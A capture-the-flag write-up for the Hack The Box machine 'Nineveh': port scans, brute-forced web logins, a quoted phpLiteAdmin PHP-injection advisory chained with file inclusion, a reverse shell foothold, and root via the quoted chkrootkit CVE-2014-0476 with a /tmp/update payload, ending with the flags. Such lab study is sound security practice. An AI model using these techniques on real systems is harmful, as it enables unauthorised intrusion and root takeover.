

# Nineveh

## Overview

This was a medium level box with many challenges.


**Name -** Nineveh

**Difficulty -** Medium

**OS -** Linux

**Points -** 30

## Information Gathering

### Port Scan

Basic Scan

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ nmap 10.129.74.155
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 01:41 +06
Nmap scan report for 10.129.74.155
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 35.95 seconds
```

Version Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 36s
╰─ nmap 10.129.74.155 -sC -sV -p80,443
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 01:41 +06
Nmap scan report for 10.129.74.155
Host is up (0.068s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

### **HTTP Enumeration**

http site leads to this



Running gobuster on it, we found the following files and folders

Upon visiting the department folder I got the follwoing


Default admin:admin gave me “Invalid Password!”


Then. I tried to bruteforce it.


I got a credentoial “admin:1q2w3e4r5t” But, It didn’t help


But I got 1 username ‘amrois’ and some information. Also, There could be some lfi here. I would take a look at it later

### HTTPS Enumeration

https site gives us the following


Gobuster finds one interesting directory


Visiting that path lead to phpliteadmin page


I found a CVE for phpLiteAdmin 1.93 [here](https://www.exploit-db.com/exploits/24044)

```
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' =>
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!

Proof: http://goo.gl/ZqPVL
```

But it needs to login. But default credential admin is not working. I also tried the previously found password but nothing worked. So, I again tried to bruteforce it


So, we get the password ‘password123’. I logged into the site and create a db named ‘hack.php’


I created a db and put a normal phpinfo code.


So, it is creating a file in /var/tmp/hack.php


Let’s try it with found lfi.


But it didn’t work. But the following works


Probably the filename should end with ninevehNotes.txt. So, I will rename the db with that name


This time it works


## Initial Foothold

So, We have a way to execute php code. I wrote a simple reverse shell to get a shell


## Getting User.txt


So, a cronjob is running /usr/bin/chkrootkit. It has a vulnerability [CVE-2014-0476](https://nvd.nist.gov/vuln/detail/CVE-2014-0476). found exploit from [exploit-db](https://www.exploit-db.com/exploits/33899)

```
We just found a serious vulnerability in the chkrootkit package, which
may allow local attackers to gain root access to a box in certain
configurations (/tmp not mounted noexec).

The vulnerability is located in the function slapper() in the
shellscript chkrootkit:

#
# SLAPPER.{A,B,C,D} and the multi-platform variant
#
slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
tr -d :`
   fi
   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
   fi
}

The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.

Suggested fix: Put quotation marks around the assignment.

file_port="$file_port $i"

I will also try to contact upstream, although the latest version of
chkrootkit dates back to 2009 - will have to see, if I reach a dev there.
```

So, It is telling to put an executable file named 'update' with non-root owner in /tmp. and it should be enough to get root shell.

I ran the following command

```bash
echo "cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt" > update
```

After a minute, we got the root flag


Root Flag - 508fc1a61bafa2ca6ab0c04b03d15b8c

Now in the same way let’s get the user flag


User Flag - 20e4040e325c823a87c863b54dad1f50

## Flags

**user.txt -** 20e4040e325c823a87c863b54dad1f50

**root.txt -** 508fc1a61bafa2ca6ab0c04b03d15b8c
